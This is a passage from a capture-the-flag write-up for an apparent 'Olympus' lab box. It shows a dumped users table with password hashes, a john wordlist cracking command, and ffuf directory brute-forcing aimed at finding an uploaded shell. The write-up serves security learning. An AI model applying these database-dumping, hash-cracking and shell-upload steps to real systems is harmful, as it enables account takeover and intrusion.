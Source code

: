 in the `flag` table i got the first flag of the box.
then i dumped the `users` table and got 3 users.

```shell
+---------+----------+------------+-----------+------------------------+------------+---------------+--------------------------------------------------------------+----------------+
| user_id | randsalt | user_name  | user_role | user_email             | user_image | user_lastname | user_password                                                | user_firstname |
+---------+----------+------------+-----------+------------------------+------------+---------------+--------------------------------------------------------------+----------------+
| 3       | <blank>  | prometheus | User      | prometheus@olympus.thm | <blank>    | <blank>       | $2y$10$YC6uoMwK9VpB5QL513vfLu1RV2sgBf01c0lzPHcz1qK2EArDvnj3C | prometheus     |
| 6       | dgas     | root       | Admin     | root@chat.olympus.thm  | <blank>    | <blank>       | $2y$10$lcs4XWc5yjVNsMb4CUBGJevEkIuWdZN3rsuKWHCc.FGtapBAfW.mK | root           |
| 7       | dgas     | zeus       | User      | zeus@chat.olympus.thm  | <blank>    | <blank>       | $2y$10$cpJKDXh2wlAI5KlCsUaLCOnf0g5fiG0QSUS53zp/r0HMtaj6rT4lC | zeus           |
+---------+----------+------------+-----------+------------------------+------------+---------------+--------------------------------------------------------------+----------------+
```

in the end only one user was saved without salt. and only this user hash was crackable with john.

```shell
$ john --wordlist=/usr/share/wordlist/rockyou.txt prometheus_hash.txt
```

```
pw: s********e
```

i saw in the user email that a virtual host with the name `chat.olympus.thm` might exist. i added it to my `/etc/hosts` file.

![image](/images/Pasted image 20221207215146.png)

on that page i was presented with a login page. i logged in with the credentials i received and was in a chat app.

![image](/images/Pasted image 20221207215813.png)

### getting reverse shell

a conversation explained that you could upload files. but after uploading they got randomly renamed so nobody could redownload them as a security measure.

![image](/images/Pasted image 20221214093251.png)

with dirbusting i found the upload folder but was not sure how to get to the uploaded shell, i was uploading.

```shell
$ ffuf -w `fzf-wordlist` -u http://chat.olympus.thm/FUZZ

.htaccess               [Status: 403, Size: 281, Words: 20, Lines: 10, Duration: 3851ms]
.htpasswd               [Status: 403, Size: 281, Words: 20, Lines: 10, Duration: 3869ms]
.hta                    [Status: 403, Size: 281, Words: 20, Lines: 10, Duration: 3884ms]
index.php               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 36ms]
javascript              [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 39ms]
phpmyadmin              [Status: 403, Size: 281, Words: 20, Lines: 10, Duration: 35ms]
server-status           [Status: 403, Size: 281, Words: 20, Lines: 10, Duration: 36ms]
static                  [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 36ms]
uploads                 [Status: 301, Size: 322, Words: 20, Lines: 10, Duration: 36ms]

```
